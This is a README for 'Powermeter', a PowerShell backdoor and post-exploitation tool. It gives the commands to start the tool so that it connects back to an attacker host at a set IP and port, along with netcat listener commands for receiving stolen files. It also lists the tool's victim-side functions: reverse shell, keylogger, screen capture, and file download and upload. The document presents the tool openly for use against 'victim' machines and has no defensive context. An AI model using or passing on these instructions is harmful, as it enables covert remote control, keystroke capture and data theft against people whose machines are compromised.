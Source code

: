 # Powermeter
Powermeter is a basic powershell based backdoor/post exploit tool. Main functionalities are shown below. You can also check the video at the bottom of the page.
Note: It is highly recommended to watch the video at 1080p due to low quality of recording. It will be fixed soon :=)

To run this program you need to solve execution-policy problem on your system.

## How to run?

	#Import powermeter functions
	>> PS C:\Users\decoder\Desktop> . .\powermeter.ps1
	
	#Start powermeter.
	#When this command is invoked, powermeter will establish a TCP connection to $SHOST:$SPORT (in this case 192.168.214.1:9190). After that, powermeter remote user interface will be ready to take commands and attacker will be able to use powermeter via this tcp connection.
	#$SPORT should be opened in at $SHOST machine (in other words, attacker machine).'nc -lvp <SPORT>' command can do the trick. The main connection between powermeter and attacker will be established via this port. Attacker send commands to powermeter from this port. 
	#$FLPORT will be used for any job which requires file transfer (those are download,upload,screencap and keylogger threads). For example, if you want to download a from victim machine, you need to provide a listener $FLPORT at $SHOST machine like this: 'nc -lvp <FLPORT> > downloadedFile'. After that you can call the download function from powermeter shell like this: 'download C:\Users\decoder\Desktop\cozbeni.zip'
	>> PS C:\Users\decoder\Desktop> Start-Powermeter -SHOST 192.168.214.1 -SPORT 9190 -FLPORT 9192
	
	Parameters:
	SHOST - attacker machine's IP.
	SPORT - an open attacker machine port that waits for powermeter connection. #'nc -lvp <SPORT>' command can do the trick.
	FLPORT - attacker machine's file transfer port. This port should be opened at attacker's side to achieve jobs which includes downloading and uploading. (Screencapturing and keylogging are also inclusive because both of them use downloader threads. You may want to see the demo video to see how it works.)

In main module:

Powermeter>show options

Options
=============

	 Command                			 Description
	 -------                			 -----------
	 get sysinfo            			 Get system information about victim machine
	 get username           			 Get username of victim machine
	 set FLPORT=<port>      			 Set file transfer port
	 rshell                 			 Open reverse shell module
	 start keylogger        			 Start keylogger thread
	 show jobs              			 Show all active threads
	 stop job -keylogger    			 Stop keylogger thread and download captured keystrokes from file port
	 stop job -reverseShell 			 Stop reverse shell session and thread
	 stop job -sendFile     			 Stop file downloading thread
	 stop job -receiveFile  			 Stop file uploading thread
	 stop job -all          			 Stop all active threads
	 screencap -screen      			 Capture screenshot of victim machine [WHOLE SCREEN] and download it
	 screencap -activeWindow			 Capture screenshot of victim machine [ACTIVE WINDOW] and download it
	 download <fileFromVictim>			 Download a file from victim machine.[<fileFromVictim>: An absolute file path in victim machine that the attacker downloads]
	 upload <fileToVictim>  			 Upload a file to victim machine.[<fileToVictim>: An absolute file path in victim machine to store file uploaded by attacker]
	 exit                   			 Exit the program
	 Important: File transfer port should be opened at attacker's side to achieve downloading,uploading files.

In reverse shell module:

Powermeter>reverse_shell>show options

Options
=============

	 Command                			 Description
	 -------                			 -----------
	 set LHOST=<IPv4>       			 Set local IP address
	 set LPORT=<port>       			 Set local port address
	 run                    			 Start reverse shell
	 back                   			 Exit from reverse shell module


A quick demo video
=============

[![IMAGE ALT TEXT HERE](https://img.youtube.com/vi/0D49nX_bD_8/0.jpg)](https://www.youtube.com/watch?v=0D49nX_bD_8)

